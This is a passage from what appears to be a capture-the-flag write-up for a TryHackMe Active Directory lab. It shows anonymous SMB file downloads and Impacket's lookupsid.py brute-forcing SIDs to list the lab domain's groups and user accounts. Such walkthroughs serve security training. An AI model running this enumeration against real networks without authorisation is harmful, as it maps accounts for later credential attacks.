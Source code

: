 ```tsx
getting file \Enterprise-Operations.txt of size 467 as Enterprise-Operations.txt (0.4 KiloBytes/sec) (average 0.4 KiloBytes/sec)
Get file Enterprise-Safety.txt? y
getting file \Enterprise-Safety.txt of size 503 as Enterprise-Safety.txt (0.5 KiloBytes/sec) (average 0.5 KiloBytes/sec)
Get file Enterprise-Sync.txt? y
getting file \Enterprise-Sync.txt of size 496 as Enterprise-Sync.txt (0.5 KiloBytes/sec) (average 0.5 KiloBytes/sec)
smb: \> exit
```

### Users

Use `lookupsid.py` to identify users/groups on the remote target

```tsx
┌──(kali㉿kali)-[~/TryHackMe/VulnNet_Roasted]
└─$ python3 lookupsid.py anonymous@10.10.168.188           
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

Password:
[*] Brute forcing SIDs at 10.10.168.188
[*] StringBinding ncacn_np:10.10.168.188[\pipe\lsarpc]
[*] Domain SID is: S-1-5-21-1589833671-435344116-4136949213
498: VULNNET-RST\Enterprise Read-only Domain Controllers (SidTypeGroup)
500: VULNNET-RST\Administrator (SidTypeUser)
501: VULNNET-RST\Guest (SidTypeUser)
502: VULNNET-RST\krbtgt (SidTypeUser)
512: VULNNET-RST\Domain Admins (SidTypeGroup)
513: VULNNET-RST\Domain Users (SidTypeGroup)
514: VULNNET-RST\Domain Guests (SidTypeGroup)
515: VULNNET-RST\Domain Computers (SidTypeGroup)
516: VULNNET-RST\Domain Controllers (SidTypeGroup)
517: VULNNET-RST\Cert Publishers (SidTypeAlias)
518: VULNNET-RST\Schema Admins (SidTypeGroup)
519: VULNNET-RST\Enterprise Admins (SidTypeGroup)
520: VULNNET-RST\Group Policy Creator Owners (SidTypeGroup)
521: VULNNET-RST\Read-only Domain Controllers (SidTypeGroup)
522: VULNNET-RST\Cloneable Domain Controllers (SidTypeGroup)
525: VULNNET-RST\Protected Users (SidTypeGroup)
526: VULNNET-RST\Key Admins (SidTypeGroup)
527: VULNNET-RST\Enterprise Key Admins (SidTypeGroup)
553: VULNNET-RST\RAS and IAS Servers (SidTypeAlias)
571: VULNNET-RST\Allowed RODC Password Replication Group (SidTypeAlias)
572: VULNNET-RST\Denied RODC Password Replication Group (SidTypeAlias)
1000: VULNNET-RST\WIN-2BO8M1OE1M1$ (SidTypeUser)
1101: VULNNET-RST\DnsAdmins (SidTypeAlias)
1102: VULNNET-RST\DnsUpdateProxy (SidTypeGroup)
1104: VULNNET-RST\enterprise-core-vn (SidTypeUser)
1105: VULNNET-RST\a-whitehat (SidTypeUser)
1109: VULNNET-RST\t-skid (SidTypeUser)
1110: VULNNET-RST\j-goldenhand (SidTypeUser)
1111: VULNNET-RST\j-leet (SidTypeUser)
```
